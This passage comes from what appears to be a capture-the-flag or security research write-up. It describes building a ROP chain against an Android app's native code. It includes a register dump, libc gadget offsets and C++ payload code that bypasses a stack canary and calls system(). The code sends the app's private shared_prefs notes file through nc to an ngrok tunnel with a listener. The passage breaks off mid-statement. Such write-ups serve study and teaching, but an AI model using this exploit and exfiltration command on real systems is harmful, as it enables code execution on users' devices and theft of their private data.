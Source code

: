### Building a ROP chain

We have control of `pc` and a libc leak. So, it is now just a matter of finding the correct gadgets to invoke `system(cmd)`. When we are at `get_algo+0xa9: pc=ret;`, this is how the registers look like:

```asm
$rax   : 0x000077031bb80a10  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rsi   : 0x000077031bb80910  →  0x00007704f8927f00  →  0x00000000005c0000
$rdi   : 0x000077031bb80900  →  0x00007703005c0000
$r8    : 0x000077031bb808f8  →  0x00007703e8914460  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r9    : 0x60
$r12   : 0x000077031bb80d40  →  0x000077031bb81090  →  0x000077031bb812e0  →  0x000077031bb81470  →  0x000077031bb815f0  →  0x000077031bb81810  →  0x0000000000000000
$r14   : 0x000077031bb80f90  →  0x0000000000000000
```

`$rax` points to our payload buffer (return value) on the stack. `$rdi` is also pointing in the stack. How convenient for `$rdi`! We will add some constants to `$rdi` so that we make it point to our `cmd` buffer in the stack and then invoke `system(cmd)`. Using [ropper](https://github.com/sashs/Ropper) it was easy to find the gadget `add rdi, 0x90; mov rax, qword ptr [rdi]; pop rbx; ret;` in libc.

So, here is our final payload:

```c++
// cpp/main.cpp

uint64_t gadget__add_rdi_0x90 = libc_base+0x00000000000cae06; // 0x00000000000cae06: add rdi, 0x90; mov rax, qword ptr [rdi]; pop rbx; ret;
uint64_t gadget__noop         = libc_base+0x000000000007a60a; // 0x000000000007a60a: ret;
uint64_t system__addr         = libc_base + 0x6f190; // system@@LIBC

char *payload = static_cast<char *>(calloc(0x1000, sizeof(char)));
size_t payload_len = 0;

for(int i=0; i<56; i++) {
    write_u8(payload, &payload_len, 0x41); //padding
}
write_u64(payload, &payload_len, canary);
write_u64(payload, &payload_len, 0x4242424242424242); //rbp

write_u64(payload, &payload_len, gadget__add_rdi_0x90); //pc
write_u64(payload, &payload_len, 0x4141414141414141); //pop rbx

write_u64(payload, &payload_len, gadget__add_rdi_0x90); //pc
write_u64(payload, &payload_len, 0x4141414141414141); //pop rbx

write_u64(payload, &payload_len, gadget__add_rdi_0x90); //pc
write_u64(payload, &payload_len, 0x4141414141414141); //pop rbx
write_u64(payload, &payload_len, gadget__noop); //pc. stack-alignment fix for movaps

write_u64(payload, &payload_len, system__addr); //pc
ALOGI("Payload len until pop pc=system; 0x%zx", payload_len);

while(payload_len < 0xA0) {
    write_u8(payload, &payload_len, 0x41); //padding
}

//terminal1: ngrok tcp 5000
//terminal2: nc -lnvp 5000
const char *ngrok_pub_addr = "4.tcp.eu.ngrok.io";
const int ngrok_pub_port = 14991;
std::string cmd =
    std::string("cat /data/user/0/com.inso.ins24/shared_prefs/com.inso.ins24.mynotes.xml | nc ") +
```